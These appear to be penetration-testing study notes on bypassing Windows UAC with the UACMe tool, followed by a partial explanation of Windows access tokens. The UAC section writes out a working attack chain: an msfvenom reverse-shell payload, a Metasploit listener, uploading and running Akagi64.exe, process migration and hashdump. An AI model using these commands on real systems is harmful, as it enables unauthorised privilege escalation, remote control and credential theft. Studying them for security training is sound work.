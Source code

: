 #### Bypassing UAC With UACMe 
+ <mark style="background: #D2B3FFA6;">UACMe</mark> is an open source, robust privilege escalation tool developed by @hfire0x, it can be used to bypass Windows UAC by leveraging various techniques 
	+ Github: https://github.com/hfiref0x/UACME
+ The <mark style="background: #D2B3FFA6;">UACME</mark> Github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to 10
+ It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileged by abusing the inbuilt Windows AutoElevate tool
+ The UACMe Github repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target 

**Once a foothold is gotten with a shell**, can check privileges 
+ in meterpreter, can do `getprivs` if not very many, escalation will be needed 
+ Can start a shell with the `shell` command
	+ can do `net user` and net `localgroup administrators` to get more info about the user
+ So even if the user is apart of the admin group, can not run admin commands without <mark style="background: #BBFABBA6;">UAC</mark> bypasses
  + Example: Changing the password with `net user admin password123` will get denied

Will first **generate a payload** with <mark style="background: #D2B3FFA6;">msfvenom</mark>
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.9.3 LPORT=1234 -f exe > backdoor.exe`

Then will **set up** a <mark style="background: #BBFABBA6;">listener</mark> in <mark style="background: #FF5582A6;">msfconsole</mark>
+ Example: `use multi/handler`
+ then set the payload: `set payload windows/meterpreter/reverse_tcp`
+ set LHOST and LPORT

Will go back to the <mark style="background: #FF5582A6;">meterpreter</mark> session on the target
+ Will `mkdir Temp` as it is a good place to put exe's
+ Will `upload backdoor.exe`
+ And upload the <mark style="background: #FF5582A6;">UACMe payload</mark>, Example: `upload /root/Desktop/tools/UACME/Akagi64.exe`
+ To run, will `.\Akagi64.exe 23 c:\Temp\backdoor.exe`, and can check listener that it works
	+ where 23 represents the key or method
+ The listener will now start and can run `getprivs` to see if it worked
+ can see what other process are running with `ps` and even migrate to them with `migrate PROCESS_NUMBER`
	+ After that can do something like get the hashes with `hashdump`

### Access Token Impersonation 

#### Windows Access Tokens 
+ Windows access tokes are a core element of the authentication process on Windows and are created and managed by the **Local Security Subsystem Service** (<mark style="background: #BBFABBA6;">LSASS</mark>)
+ Windows <mark style="background: #ADCCFFA6;">access token is responsible for identifying and describing the security context </mark>of a process or thread running on a system. Simply put, an access toke <mark style="background: #FFF3A3A6;">can be thought of as a temporary key akin to a web cookie</mark> that provides users with access to a system or network resources without having to provide credentials each time a process is started or a system resources is accessed.
+ Access tokens are **generated** by the <mark style="background: #BBFABBA6;">winlogon.exe</mark> process every-time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the <mark style="background: #BBFABBA6;">userinit.exe</mark> process, after which all <mark style="background: #FFF3A3A6;">child processes started by a user will inherit a copy of the access token</mark> from their creator and will <mark style="background: #ADCCFFA6;">run under the privileges of the same access token</mark> 
+ Windows access tokens are categorized based on the varying security levels assigned to them 
	+ These security levels are used to <mark style="background: #ADCCFFA6;">determine the privileges</mark> that are assigned to a specific token 
+ An access token will typically be assigned one of the following <mark style="background: #FF5582A6;">security levels</mark>: